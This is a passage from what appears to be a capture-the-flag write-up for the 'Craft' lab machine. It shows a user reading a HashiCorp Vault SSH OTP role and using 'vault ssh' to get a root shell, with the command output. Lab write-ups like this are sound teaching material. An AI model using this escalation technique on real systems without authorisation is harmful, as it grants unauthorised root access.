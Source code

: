 I can read that value out:



    gilfoyle@craft:~$ vault read ssh/roles/root_otp
    Key                  Value
    ---                  -----
    allowed_users        n/a
    cidr_list            0.0.0.0/0
    default_user         root
    exclude_cidr_list    n/a
    key_type             otp
    port                 22



But more importantly, I can use the ssh command to connect:



    gilfoyle@craft:~$ vault ssh -mode=otp -role=root_otp root@127.0.0.1
    Vault could not locate "sshpass". The OTP code for the session is displayed
    below. Enter this code in the SSH password prompt. If you install sshpass,
    Vault can automatically perform this step for you.
    OTP for the session is: 6c5f8635-d25a-958e-078b-e929255b949d


      .   *   ..  . *  *
    *  * @()Ooc()*   o  .
        (Q@*0CG*O()  ___
       |\_________/|/ _ \
       |  |  |  |  | / | |
       |  |  |  |  | | | |
       |  |  |  |  | | | |
       |  |  |  |  | | | |
       |  |  |  |  | | | |
       |  |  |  |  | \_| |
       |  |  |  |  |\___/
       |\_|__|__|_/|
        \_________/



    Password: 
    Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Jul 16 01:52:13 2019 from 127.0.0.1
    root@craft:~# id
    uid=0(root) gid=0(root) groups=0(root)
